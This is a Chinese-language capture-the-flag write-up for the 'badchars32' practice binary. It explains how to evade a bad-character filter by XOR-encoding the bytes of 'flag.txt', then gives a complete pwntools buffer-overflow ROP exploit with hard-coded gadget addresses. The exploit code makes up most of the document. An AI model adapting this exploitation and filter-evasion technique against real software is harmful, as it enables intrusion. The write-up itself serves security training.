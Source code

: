 # badchars32

题目限制了'x', 'g', 'a', '.'，一旦payload中有以上字符，则替换成0xEB。 本题可用异或绕过。  

我们在payload中把限制字符异或掉，防止被过滤。  

例如，先传入ord('f') ^ 2，这时字符变成了'd'，放到bss段中，再用`xor bl, (%ebp)`把'd'与2异或，还原成'f'，其他字符同理。  

Exp:
```python
import pwn

pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./badchars32')
e = pwn.ELF('./badchars32')
libbadchars32 = pwn.ELF('./libbadchars32.so')

'''
for k, v in e.sym.items():
    print(k, hex(v))
pwn.pause()
'''

main_addr = pwn.p32(e.sym['main'])
print_file_addr = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()

# ROPgadget --binary badchars32
add_bl__ebp__addr = pwn.p32(0x8048543)       # add bl, (%ebp) ; ret
pop_ebx_addr = pwn.p32(0x0804839d)           # pop ebx ; ret
pop_ebp_addr = pwn.p32(0x080485bb)           # pop ebp ; ret
xor_bl__ebp__addr = pwn.p32(0x08048547)      # xor bl, (%ebp) ; ret

#pwn.gdb.attach(p)

# 在payload中把限制字符异或掉，防止被过滤
i = 0
for ch in 'flag.txt':
    payload = b'A' * 0x28 + b'B' * 4 + pop_ebx_addr + pwn.p32(ord(ch) ^ 2) + pop_ebp_addr + pwn.p32(bss_addr + i) + add_bl__ebp__addr + pop_ebx_addr + pwn.p32(2) + xor_bl__ebp__addr + main_addr
    p.sendlineafter(b'> ', payload)
    i += 1

#pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + print_file_addr + b'R' * 4 + pwn.p32(bss_addr)
p.sendlineafter(b'> ', payload)
p.recv()
```